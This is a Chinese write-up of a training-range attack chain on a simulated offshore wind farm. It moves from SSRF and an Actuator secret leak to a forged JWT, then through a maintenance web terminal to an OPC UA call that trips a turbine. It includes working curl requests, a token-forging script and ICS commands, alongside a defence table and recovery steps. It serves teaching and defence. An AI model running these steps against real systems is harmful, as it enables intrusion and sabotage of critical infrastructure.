




# 海上链复盘

> 定位：授权靶场与教学环境的知识整理。文中所有 IP、端口、NodeId、凭据、payload 均取自靶场素材，仅用于讲清漏洞成因与防护方向。

## 一句话概括

从 SSRF 打到 JWT 密钥泄露，用泄露的密钥自签令牌把 scope 提升到 `maintenance.connect` 进入维护网关，再经 Web Terminal 落到 OPC UA。最后没有发任何一条"停机"命令，只是把温度保护阈值从 95 改成 40，让风机用自己的保护逻辑把自己停了。



## 链路总览

```text
offshore-edge-portal (10.0.11.8:8080)
  -> /static/js/datasource.js 暴露内部服务名 auth-service / maintenance-gateway
  -> SSRF: /api/trend/preview?source_url=http://maintenance-gateway:8080/health
  -> SSRF: http://auth-service:8080/actuator  ->  _links 发现 /actuator/env
  -> SSRF: /actuator/env 泄露 JWT_SECRET=offshore-secret-2026 (HS256, iss=auth-service)
  -> 取 viewer JWT (scope=[trend.read], role=viewer, user=edge-service)
  -> 维护网关返回 403 insufficient_scope, scope="maintenance.connect"
  -> 用泄露密钥自签 JWT: 保留 edge-service/viewer 身份，scope 加 maintenance.connect
  -> /ops/remote-maint/connect -> 302 + maint_session=OFF-SID-...
  -> Web Terminal (PTY API) -> offshore-maint-ws（10.0.12.0/24，攻击机不可直连）
  -> ~/opcua-profiles/offshore-gateway.profile
       endpoint=opc.tcp://10.0.12.8:4840/windfarm/offshore/
  -> OPC UA Browse -> WindFarm.Offshore.Turbine08.Protection.{SetTemperatureLimit,ResetProtection}
  -> OPC UA Read  -> temperature=73.0, temperature_limit=95.0
  -> OPC UA Method Call SetTemperatureLimit(40.0)  ->  Server 写入 Modbus HR96
  -> Turbine08 保护停机 PROTECTION_STOP / OFF_GRID
  -> offshore-scada-hmi (10.0.11.5:8080) 停机、脱网、功率归零、告警 TEMP_THRESHOLD_TRIP
```

## 前置状态

打开 `http://10.0.11.5:8080`（海上 SCADA HMI），确认基线：

- WT08 `state=RUNNING`、`grid_state=ON_GRID`、`power_kw > 0`。
- `temperature_limit_c=95.0`、`alarm=NONE`。

打开 `http://10.0.11.8:8080`（边缘趋势门户）首页，应只看到正常业务信息：标题"海上风电综合分析平台"、"第三方数据源连通性检测"。不应出现 Turbine08、保护阈值、viewer token 按钮，这些必须通过后续协议发现。

## 逐步拆解

### 步骤 1：从首页源码定位会话引导与内部服务线索

- 做什么：`curl -s http://10.0.11.8:8080/ | head -60` 看到首页中的 `bootstrapEdgeSession()`，它自动调用 `/api/auth/viewer-token`；再读 `/static/js/datasource.js`，得到 `datasourceRegistry.internalHealthTargets`，列出 `auth-service`（`/actuator`）与 `maintenance-gateway`（`/health`，`portalPath: /ops/remote-maint/`）。
- 为什么成立（证据来源）：与平原/山区同源的手法，前端 JS 就是接口地图。`datasource.js` 甚至直接给出了内部服务名、健康检查路径与维护门户代理前缀。
- 命中什么漏洞：敏感信息暴露（内部架构与服务名写入前端资源）。
- 学到什么：拿到 `internalHealthTargets` 就等于拿到了 SSRF 的"目标清单"。这一步不产生任何攻击流量，却是后面所有横向探测的索引。

### 步骤 2：确认 SSRF 入口

- 做什么：点"第三方数据源连通性检测"，Network 中看到 `/api/trend/preview?source_url=`；请求 `curl -s "http://10.0.11.8:8080/api/trend/preview?source_url=http://offshore-weather-feed/status"` 返回 `fetched_by: offshore-edge-portal`、`status: ok`、`sample` 含气象数据。
- 为什么成立（证据来源）：`fetched_by: offshore-edge-portal` 说明请求是服务端发起的，而 `source_url` 完全由用户控制。服务端代为请求 + 目标可控 = SSRF 的两个充要条件。
- 命中什么漏洞：SSRF（Server-Side Request Forgery），且未做目标地址白名单/内网地址过滤。
- 学到什么：识别 SSRF 的最快判据是响应里带"谁去取的"这类自证字段，它既证明 SSRF 存在，也省去 Blind SSRF 的带外验证成本。

### 步骤 3：用 SSRF 证明内部服务存在

- 做什么：`curl -s ".../api/trend/preview?source_url=http://maintenance-gateway:8080/health"` 返回 `status_code: 200`、`body.status: UP`、`body.service: maintenance-gateway`。
- 为什么成立（证据来源）：SSRF 让边缘门户替攻击者访问了它所在内网的服务名。`/health` 只返回 `UP`，不泄露 IP、接口路径或认证方式，这是刻意设计的"最小信息"端点，但依然足以作为存在性判据。
- 命中什么漏洞：SSRF 可探测内网服务（服务发现）。
- 学到什么：健康检查点信息量小，却能把"猜测的服务名"变成"确认的资产"。防 SSRF 不能只想着"别泄露敏感数据"，服务存在性本身就是情报。

### 步骤 4：打开维护门户，确认存在会话建立机制

- 做什么：访问 `http://10.0.11.8:8080/ops/remote-maint`，页面显示"海上远程维护门户"、含"建立会话"按钮与 `<script src="/static/js/maintenance.js">`；尝试读 `maintenance.js` 返回 404（平台差异，不影响链路）。
- 为什么成立（证据来源）：`portalPath: /ops/remote-maint/` 来自 Step 1 的 JS；页面 HTML 中的"建立会话"按钮证明存在会话建立机制。后续按 REST 惯例（资源 + 动作）尝试 `/ops/remote-maint/connect` 发现具体接口。
- 命中什么漏洞：无独立漏洞，属于接口枚举。
- 学到什么：JS 文件 404 不代表路径失效。页面本身（路由 + 按钮文案）才是稳定线索，REST 命名惯例（`/connect`）足以补全接口名。

### 步骤 5：获取 viewer token，确认当前权限不足（关键线索）

- 做什么：`curl -s http://10.0.11.8:8080/api/auth/viewer-token` 取 token，payload 解出 `scope: [trend.read]`、`role: viewer`；用它访问维护网关返回 `HTTP 403`、`WWW-Authenticate: Bearer error="insufficient_scope", scope="maintenance.connect"`。
- 为什么成立（证据来源）：这是全链的导航灯。403 响应头主动告诉攻击者缺哪个 scope（`maintenance.connect`），把"要提升到什么权限"从猜测变成已知条件。viewer token 又是匿名可取的，说明系统允许任何人获得一个低权 JWT。
- 命中什么漏洞：权限模型描述过度暴露（`WWW-Authenticate` 泄露所需 scope）；匿名可获取可用令牌。
- 学到什么：标准 OAuth 的 `insufficient_scope` 报错在设计上是"帮助客户端申请正确权限"，在攻击者手里它是改造目标清单。防护上应避免向未认证/低权主体回显精确 scope 名。

### 步骤 6：用 SSRF 逐跳走到 `/actuator/env`

- 做什么：`curl -s ".../api/trend/preview?source_url=http://auth-service:8080/actuator"`，响应 `_links` 中含 `env: { href: http://auth-service:8080/actuator/env }`。
- 为什么成立（证据来源）：`/actuator` 是 Spring Boot Actuator 的导航首页，会列出所有可用端点。攻击者顺着 `_links` 导航即可，不必猜路径。这一步把 SSRF 的能力从"读已知端点"升级为"发现未知端点"。
- 命中什么漏洞：Actuator 端点在生产环境暴露且可被内网 SSRF 触达。
- 学到什么：`_links` 自描述是双刃剑，对运维友好，对攻击者也友好。防护要点是生产环境 `management.endpoints.web.exposure.include` 只留 `health`，并给 actuator 单独的网络 ACL。

### 步骤 7：读出 JWT Secret（整条链的核心）

- 做什么：`curl -s ".../api/trend/preview?source_url=http://auth-service:8080/actuator/env"`，从 `systemEnvironment` 属性中读出 `JWT_SECRET = offshore-secret-2026`、`JWT_ALGORITHM = HS256`、`JWT_ISSUER = auth-service`。
- 为什么成立（证据来源）：`/actuator/env` 会把进程环境变量（含 `systemEnvironment`）整个吐出来。HS256 是对称算法，签名与验证共用同一密钥，拿到密钥等于获得无限签发能力；`iss=auth-service` 则告诉攻击者 token 该填什么 issuer 才会被接受。
- 命中什么漏洞：密钥管理失败（密钥以环境变量形式存在于可被 SSRF 读取的进程）、Actuator 敏感端点暴露。
- 学到什么：对称签名算法下，密钥泄露等于认证体系整体失效。这也解释了为什么"防 SSRF"在工控/云边场景是密码学级别的问题：SSRF 的破坏力上限取决于内网有哪些"高价值只读端点"。

### 步骤 8：自签 JWT，把 scope 提升到 `maintenance.connect`

- 做什么：在攻击机本地构造 JWT，保留原身份但扩权：

  ```python
  s='offshore-secret-2026'
  def b(o): return base64.urlsafe_b64encode(json.dumps(o,separators=(',',':')).encode()).rstrip(b'=').decode()
  h={'typ':'JWT','alg':'HS256'}
  p={'iss':'auth-service','aud':'offshore-edge','user':'edge-service','role':'viewer',
     'scope':['trend.read','maintenance.connect'],'iat':int(time.time()),'exp':int(time.time())+1800}
  si=b(h)+'.'+b(p)
  print(si+'.'+base64.urlsafe_b64encode(hmac.new(s.encode(),si.encode(),hashlib.sha256).digest()).rstrip(b'=').decode())
  ```

- 为什么成立（证据来源）：素材明确强调这是 Scope Escalation（提权），`user` 仍是 `edge-service`、`role` 仍是 `viewer`，只有 `scope` 增加了 `maintenance.connect`，并没有冒充别人。因为 `JWT_SECRET` 是真的，签名能通过验证，认证服务会认为这是"合法签发"的令牌。所需 scope 的名字来自 Step 5 的 403 响应头。
- 命中什么漏洞：密钥泄露导致的令牌伪造 + 授权模型缺陷（scope 未经独立授权服务绑定到主体）。
- 学到什么：JWT 的"签名有效"只证明内容没被篡改，不证明权限被授予过。当 scope 与身份写在同一自包含令牌里、又由同一把对称密钥签名时，权限就随密钥一并失控。正确做法是权限由服务端授权中心按主体裁决，令牌只做身份声明。

### 步骤 9：持伪造 JWT 进入维护网关

- 做什么：`curl -s -i -H "Authorization: Bearer $(cat /tmp/jwt)" http://10.0.11.8:8080/ops/remote-maint/connect`，返回：

  ```text
  HTTP 302 Found
  Set-Cookie: maint_session=OFF-SID-...
  Location: /ops/remote-maint/terminal?sid=OFF-SID-...
  ```

  再用 `grep -oP 'sid=\K[^&\s"]+'` 提取 SID 供后续 PTY API 调用。
- 为什么成立（证据来源）：维护网关的校验链是"验签 + 查 scope"，两者都被满足（真实密钥 + 追加的 scope），因此放行。302 与 `maint_session` Cookie 说明网关签发了一个面向 Web Terminal 的会话凭据。
- 命中什么漏洞：会话建立接口仅依赖 JWT 声明，未做二次主体验证（如绑定源 IP、二次认证、工单授权）。
- 学到什么：从"Web 令牌"到"设备 shell"之间只隔了一个 302。任何把令牌直接兑换成运维通道的设计，都应加入强于令牌的核验（如工单号 + 双因素 + 时间窗）。

### 步骤 10：通过 Web Terminal 找到 OPC UA 端点

- 做什么：通过 PTY API 在 Web Terminal 内执行命令（每条命令先 `POST /ops/remote-maint/api/pty/write` 发送 `{"sid":"$SID","input":"...\n"}`，再 `GET /ops/remote-maint/api/pty/read?sid=$SID` 读输出）：

  ```bash
  whoami                      # -> remote-maintainer
  ls -la ~                    # -> 发现 opcua-profiles/ 与 opcua-tools/
  cat ~/opcua-profiles/offshore-gateway.profile
  # -> endpoint=opc.tcp://10.0.12.8:4840/windfarm/offshore/
  ```

- 为什么成立（证据来源）：攻击机在 `10.0.11.0/24`（交换机11），maint-ws 在 `10.0.12.0/24`（交换机12），网段隔离，攻击机不能直连，所以必须通过 Web Terminal 代理，这也是前面要费力气进维护网关的原因。`opcua-profiles/` 是运维平时使用的连接配置目录，profile 里直接写着 endpoint。
- 命中什么漏洞：运维工作站的连接配置对已登录会话完全可读；维护通道无二次边界（Web Terminal 成为跨区跳板）。
- 学到什么：注意：网络分区在"有合法代理由"面前会失效。这里的 Web Terminal 是一台被授权的跨区代理，攻击者只是借用了它的授权。分区策略必须同时约束"代理能做什么"（命令白名单、目标白名单）。

### 步骤 11：OPC UA Discover

- 做什么：`ls -la ~/opcua-tools/` 发现 `discover.py / browse.py / read.py / call_method.py`，执行 `/opt/windfarm/offshore-maint-ws/venv/bin/python ~/opcua-tools/discover.py`，返回：

  ```text
  CONNECTED opc.tcp://10.0.12.8:4840/windfarm/offshore/
  Namespaces:
    ns=0 http://opcfoundation.org/UA/
    ns=1 urn:freeopcua:python:server
    ns=2 urn:windfarm:njust:offshore:opcua-gateway
  ```

- 为什么成立（证据来源）：`ns=2 urn:windfarm:njust:offshore:opcua-gateway` 是业务自定义命名空间，后续所有 NodeId 都形如 `ns=2;s=WindFarm.Offshore.Turbine08.Protection.SetTemperatureLimit`。ns 编号不是猜的，是 Discover 的结果。
- 命中什么漏洞：维护站预置了成套 OPC UA 操作工具，形成"开箱即用的攻击工具箱"。
- 学到什么：工控运维工具具有双用途。防护要看谁能登录到持有这些工具的机器，而不是工具本身。

### 步骤 12：Browse 资产树，发现 Protection 方法

- 做什么：执行 `~/opcua-tools/browse.py`，得到资产树 `WindFarm → Offshore → Turbine07/08/09`，每台风机有 `Telemetry`、`Grid`、`Protection`（含 `SetTemperatureLimit`、`ResetProtection`）、`State`、`Alarm`。
- 为什么成立（证据来源）：Turbine 与 Protection 方法不在 edge-portal 首页展示，只能通过 OPC UA 协议发现。Browse 服务把服务器地址空间整棵树暴露给任何已建立 Session 的客户端。
- 命中什么漏洞：OPC UA 地址空间未做可见性隔离（无角色化视图）。
- 学到什么：在 OPC UA 里，Browse 就是侦察。防它的办法是方法级授权 + 审计，靠隐藏节点（Security by Obscurity）不算防护。

### 步骤 13：Read 当前温度与阈值，推导攻击方案

- 做什么：执行 `read.py --turbine Turbine08`，返回 `temperature=73.0`、`temperature_limit=95.0`、`active_power=342.0`、`grid_state=ON_GRID`、`turbine_state=RUNNING`、`alarm=NONE`。推导：`73.0 > 40.0`，若设限 40.0，触发 `PROTECTION_STOP`。
- 为什么成立（证据来源）：攻击所需的一切数值都来自 Read 本身。保护逻辑是"温度 > 阈值即跳闸"，攻击者只需找到一个小于当前温度的阈值，就能让条件恒真。
- 命中什么漏洞：无独立漏洞，属于参数收集。
- 学到什么：保护类逻辑的可攻击性取决于"阈值是否可写"。这里阈值是一个普通可写属性/方法参数，于是"安全机制"反而成了攻击入口。

### 步骤 14：Method Call `SetTemperatureLimit(40.0)`，借保护逻辑停机

- 做什么：

  ```bash
  ~/opcua-tools/../venv/bin/python ~/opcua-tools/call_method.py \
    --node "ns=2;s=WindFarm.Offshore.Turbine08.Protection.SetTemperatureLimit" --value 40
  ```

  返回 `StatusCode: Good`、`old_limit_c = 95.0`、`new_limit_c = 40.0`、`evaluation = 61.0 > 40.0`、`action = PROTECTION_STOP`，以及调用后状态 `temperature_limit=40.0`、`active_power=0.0`、`grid_state=OFF_GRID`、`turbine_state=PROTECTION_STOP`、`alarm=TEMP_THRESHOLD_TRIP`。
- 为什么成立（证据来源）：OPC UA Server 把新阈值写入后端 Modbus HR96；风机 Modbus 模拟器检测到温度超限，执行自身合法的保护逻辑，于是停机脱网。攻击者从未发出"停机"指令，只是篡改了风机的"安全警戒线"。
- 命中什么漏洞：OPC UA 方法级授权缺失（`SetTemperatureLimit` 未区分角色、未做双人复核）。
- 学到什么：这是全链最有教学价值的一点：让被攻击设备"自愿且正当地"执行破坏动作，比直接发控制命令更隐蔽，也更难被"控制命令白名单"拦住。防护必须覆盖参数写入，不能只盯命令下发。

### 步骤 15：HMI 验证

- 做什么：`curl -s http://10.0.11.5:8080/api/state | python3 -m json.tool | grep -A10 WT08`，确认 WT08 已保护停机。
- 为什么成立（证据来源）：HMI 状态来自 OPC UA Server 背后的 PLC 模拟器，与 Method Call 的 `StateAfterCall` 一致，形成端到端闭环。
- 命中什么漏洞：无（验证环节）。
- 学到什么：注意：这里的告警是 `TEMP_THRESHOLD_TRIP` 而非 `POWER_LIMIT_ZERO`，取证判据据此区分，详见下文业务影响。

## 协议落点

- 入口协议：HTTP（SSRF、JWT 伪造、维护网关）。SSRF 的"服务端代发"特性是把 Web 漏洞转成内网访问权的关键。
- 中段协议：HTTP（Web Terminal PTY API，`/ops/remote-maint/api/pty/write|read`）。
- 落点协议：OPC UA（`opc.tcp://10.0.12.8:4840/windfarm/offshore/`）。
- OPC UA 四个落点维度：

  | 维度 | 取值 | 作用 |
  | --- | --- | --- |
  | NodeId | `ns=2;s=WindFarm.Offshore.Turbine08.Protection.SetTemperatureLimit` | 精确定位保护方法；`ns=2` 来自 Discover，路径来自 Browse |
  | Service | Browse / Read / Call | Browse 侦察 → Read 取值 → Call 执行，三步构成完整攻击 |
  | Method 参数 | `40.0` | 唯一被写入的数值，必须小于当前温度 73.0 才能触发保护 |
  | StatusCode | `Good` | 服务端只回报"调用成功"，不判定参数的业务后果 |

- 落点最终还是 Modbus：入口是 OPC UA、落点是 Modbus，上层语义由下层寄存器承接，`SetTemperatureLimit` 写进后端 HR96。





## 业务影响

HMI 上可观察到的变化：

```text
WT08:
  state:               PROTECTION_STOP
  grid_state:          OFF_GRID
  power_kw:            0.0
  temperature_limit_c: 40.0
  alarm:               TEMP_THRESHOLD_TRIP
```

与平原链（场站整体归零、`POWER_LIMIT_ZERO`）、山区链（单机 `POWER_LIMIT_ZERO`）相比，海上链的告警语义不同：`TEMP_THRESHOLD_TRIP` 指向一次保护动作，平原与山区链的 `POWER_LIMIT_ZERO` 才是限功率。取证时这条差异很关键，它指向"阈值被篡改"而不是"控制命令被注入"。

## 恢复现场

在 Web Terminal 内调用复位方法（PTY 写法同上）：

```bash
python ~/opcua-tools/call_method.py \
  --node "ns=2;s=WindFarm.Offshore.Turbine08.Protection.ResetProtection" --no-arg
```

恢复后验证 `curl -s http://10.0.11.5:8080/api/state | python3 -m json.tool | grep -A5 WT08`，预期 WT08 回到 `RUNNING` / `ON_GRID`，`temperature_limit_c` 恢复为 95.0，`alarm=NONE`，`power_kw > 0`。

另需：使 `maint_session` Cookie 失效（关闭会话）；清理网关侧会话记录；若伪造的 JWT 仍在有效期内（`exp` = 签发后 1800 秒），应通过轮换 `JWT_SECRET` 使其立即失效，这是唯一可靠的失效手段。

## 验收标准

```text
[ ]  1. 前置：HMI WT08 RUNNING / ON_GRID / power_kw>0 / temperature_limit_c=95.0 / alarm=NONE。
[ ]  2. 首页(10.0.11.8:8080) 不含 Turbine08、保护阈值、viewer token 按钮。
[ ]  3. /api/trend/preview?source_url=... 返回 fetched_by=offshore-edge-portal（SSRF 成立）。
[ ]  4. /static/js/datasource.js 暴露 auth-service、maintenance-gateway、portalPath=/ops/remote-maint/。
[ ]  5. SSRF 访问 maintenance-gateway:8080/health 返回 status UP。
[ ]  6. /api/auth/viewer-token 可取，payload 含 scope=[trend.read]、role=viewer。
[ ]  7. 用 viewer token 访问 /ops/remote-maint/connect 返回 403 insufficient_scope，scope="maintenance.connect"。
[ ]  8. SSRF 访问 auth-service:8080/actuator 的 _links 中含 /actuator/env。
[ ]  9. SSRF 读 /actuator/env 得到 JWT_SECRET=offshore-secret-2026、JWT_ALGORITHM=HS256、JWT_ISSUER=auth-service。
[ ] 10. 自签 JWT 保留 user=edge-service / role=viewer，scope 追加 maintenance.connect。
[ ] 11. 用伪造 JWT 访问 /ops/remote-maint/connect 返回 302，Set-Cookie: maint_session=OFF-SID-...。
[ ] 12. Web Terminal 内 whoami=remote-maintainer。
[ ] 13. profile 读出 endpoint=opc.tcp://10.0.12.8:4840/windfarm/offshore/。
[ ] 14. Discover 得到 ns=2 urn:windfarm:njust:offshore:opcua-gateway。
[ ] 15. Browse 发现 Turbine07/08/09 各含 Protection.{SetTemperatureLimit,ResetProtection}。
[ ] 16. Read Turbine08 得到 temperature=73.0、temperature_limit=95.0。
[ ] 17. Call SetTemperatureLimit(40.0) 返回 StatusCode=Good、action=PROTECTION_STOP。
[ ] 18. HMI 上 WT08 PROTECTION_STOP / OFF_GRID / power_kw=0.0 / temperature_limit_c=40.0 / alarm=TEMP_THRESHOLD_TRIP。
[ ] 19. Call ResetProtection 后 WT08 恢复 RUNNING / ON_GRID / alarm=NONE。
```

## 安全视角

| 环节 | 真实防护措施 |
| --- | --- |
| 前端 JS 暴露内部服务 | 内部服务名/健康检查目标不写入前端；改为服务端侧注册表 |
| SSRF | 目标 URL 白名单 + 内网地址段/DNS 解析后二次校验；禁止协议跳转（`file://`、`gopher://`）；出站流量走代理并记录；对 `source_url` 用固定 ID 映射而非原始 URL |
| Actuator 暴露 | 生产环境仅暴露 `health`；`env`/`beans`/`heapdump` 一律关闭；actuator 绑定内网管理口 + ACL |
| 密钥管理 | JWT 密钥入 KMS/HSM，不进环境变量、不进日志、不进配置文件；改用非对称签名（RS256/ES256），私钥不出签名服务；密钥定期轮换 + 泄露后秒级吊销 |
| JWT 设计 | 权限（scope）由服务端授权中心按主体裁决，不写进自包含令牌；短 TTL + `jti` 黑名单；校验 `iss`/`aud`/`exp`/`nbf` 全字段 |
| 错误信息 | 不向低权主体回显精确的所需 scope 名；统一 403 文案 |
| 维护网关 | 令牌兑换运维通道需二次认证 + 工单号绑定 + 时间窗 + 源 IP 绑定；会话单次使用、短 TTL、可吊销 |
| Web Terminal | 命令白名单 + 目标白名单；限制可执行的二进制；全量会话录像与命令审计；禁止从终端横向发起新连接 |
| 跨区代理 | 明确"代理能做什么"，而不是"谁能用代理"；10.0.11 与 10.0.12 之间部署工业防火墙 + 纵向加密，代理只放行必要的 opc.tcp 端口与源地址 |
| OPC UA 暴露面 | 关闭匿名/低权 Browse；使用角色化地址空间视图；启用 OPC UA 安全策略（SignAndEncrypt）+ 证书双向认证；方法级授权区分 `read` / `write` / `call` |
| 保护阈值写入 | 把保护阈值列为与遥控同级的高危写操作：双人复核、变更留痕、速率限制；阈值下界做物理约束（不得低于合理运行温度） |
| 后端 Modbus | OPC UA Server 到 PLC 的那一段同样需要写白名单与值域校验，不能假设"上层可信所以下层可放开" |
| 监控审计 | 对 OPC UA `Call` 服务单独审计（Session、用户、NodeId、参数、旧值/新值）；对 `SetTemperatureLimit` 类调用实时告警；HMI 侧对 `TEMP_THRESHOLD_TRIP` 与 `temperature_limit_c` 突变联动 |

## 交叉引用

- OPC UA 基础与服务集：`../04-OPCUA/通信流程.md`
- OPC UA 安全策略：`../04-OPCUA/攻击面.md`
- IEC61850 GOOSE：`../05-IEC61850/GOOSE报文.md`
- Modbus 寄存器（HR96 / HR93）：`../02-Modbus/点表映射.md`
- 图示：[攻击链总览](../_assets/攻击链.svg)、[OPC UA 架构](../_assets/opcua架构.svg)、[GOOSE 帧](../_assets/goose帧.svg)、[工控分层](../_assets/工控分层.svg)

## 素材中的不确定处

- 温度数值前后不一致：Step 13（Read）得到 `temperature=73.0`，但 Step 14 的方法返回中写 `evaluation = 61.0 > 40.0`。两处数值不同（73.0 vs 61.0）。从逻辑上，只要当前温度 > 40.0 结论都成立，但素材未说明 61.0 的来源（可能是模拟器在两次调用之间温度下降，或返回文本为示意值）。复现时以实际 Read 值为准。
- 维护工作站命名与网段：链路总览写作 `offshore-maint-ws`；Step 10 提到"攻击机在 10.0.11.0/24（交换机11），maint-ws 在 10.0.12.0/24（交换机12）"，与 OPC UA 网关 `10.0.12.8` 同网段。素材未给出 maint-ws 自身的确切 IP。
- `maintenance.js` 返回 404：素材标注为"平台差异，不影响攻击链"，因此 `/ops/remote-maint/connect` 的发现方式（REST 惯例尝试）带有一点推断成分。
- `JWT_ALGORITHM=HS256` 未说明密钥轮换机制：恢复章节由本笔记补充了"轮换 JWT_SECRET 使已签发令牌立即失效"作为建议，素材原文只写了 `ResetProtection`。
- 告警语义：海上链为 `TEMP_THRESHOLD_TRIP`，与平原/山区的 `POWER_LIMIT_ZERO` 不同；素材未说明海上 HMI 是否存在 `POWER_LIMIT_ZERO` 的等价展示。

## 旁支：GOOSE 保护联锁链

靶场另有一条海上 GOOSE 支链（部署记录见 `D:\bachang-shixunpingtai\风电\部署参考资料\2026-07-12_海上GOOSE保护链路部署记录.md`），与本链共用"改保护逻辑而非直接下停机令"的思路：

```text
attack-offshore -> AGC/AVC3 IEC61850 GOOSE 保护测试 -> 前置机1
  -> SCADA系统5 生成 PENDING_CONFIRM
  -> AGC/AVC3 回执通道读取 event_id / interlock_id
  -> AGC/AVC3 interlock-test 联锁确认 -> SCADA系统3/HMI
  -> PLC3 HR93=0 -> OFF_GRID / GRID_DISCONNECT
```

- 协议点：IEC61850 GOOSE；事件 `PTUV1.Op.general=true`；设备对象 `XCBR1.Pos.stVal=open`；序列要求 `stNum > 41`、`sqNum = 0`；控制映射 `XCBR1.Pos.stVal=open -> CTRL.GRID_ENABLE -> HR93=0`；业务影响 `PLC3 OFF_GRID`、功率归零、告警 `GRID_DISCONNECT`。
